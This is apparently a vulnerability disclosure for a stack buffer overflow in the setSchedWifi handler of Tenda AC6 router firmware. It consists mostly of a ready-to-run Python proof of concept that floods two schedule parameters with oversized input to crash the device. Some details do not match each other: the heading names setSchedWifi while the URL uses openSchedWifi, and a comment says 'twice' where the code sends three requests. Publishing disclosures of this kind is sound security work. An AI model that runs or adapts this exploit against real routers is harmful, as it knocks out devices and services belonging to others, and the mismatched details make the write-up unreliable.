



## Tenda AC6 V15.03.05.16 firmware has a buffer overflow vulnerability in the setSchedWifi function

A serious buffer overflow vulnerability exists in the `setSchedWifi` function of the Tenda AC6 router firmware version V15.03.05.16.  
An attacker can exploit two instances of the `strcpy` function in the code to perform a Denial of Service (DoS) attack, or potentially cause a crash in the target service.




### poc
```python
import requests


def generate_overflow_data():
	# Target buffer size is 0x400 bytes
	padding = b"X" * 0x400
	exploit_data = padding
	return exploit_data

def execute_overflow(url, data):
	# Prepare malicious request parameters
	attack_params = {'schedStartTime':data,'schedWifiEnable':0,'schedEndTime':data}
	# Send the malicious request twice (as in original)
	server_response = requests.get(url, params=attack_params)
	server_response = requests.get(url, params=attack_params)
	server_response = requests.get(url, params=attack_params)

	# Display server response
	print("HTTP Status:", server_response.status_code)
	print("Response Content:", server_response.text)

if __name__ == "__main__":
	# Target endpoint
	target_url = "http://192.168.52.138/goform/openSchedWifi"
	# Generate overflow payload
	malicious_payload = generate_overflow_data()
	# Execute the attack
	execute_overflow(target_url, malicious_payload)
```

Achieved Result: Segmentation Fault
